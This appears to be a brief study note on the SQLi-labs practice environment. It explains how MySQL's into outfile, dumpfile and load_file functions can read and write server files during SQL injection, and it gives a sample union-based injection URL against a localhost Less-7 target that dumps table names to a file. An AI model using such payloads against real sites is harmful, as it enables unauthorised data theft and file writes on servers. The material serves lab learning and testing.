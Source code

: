 # Exploiting databases with Outfiles

Here are some sql commands that are used to read and write files - 

1.  into outfile "name_of_the_file"

1.  into dumpile "name_of_the_file"

1.  load_file("name_of_the_file")

Also, in order to use these commands, we need to make sure that mysql has write permissions. 

MySql also has the ```--secure-file-priv``` option which limits the ability to read and write files. You may need to check which directory can mysql write to.

The url for this method will look somewhat like this - 

```
https://localhost/sqlilabs/Less-7/?id=1')) union select 1, table_name from information_schema.tables where table_schema=database(), 3 into outfile '/var/lib/mysql-files/payload3.txt' --+
```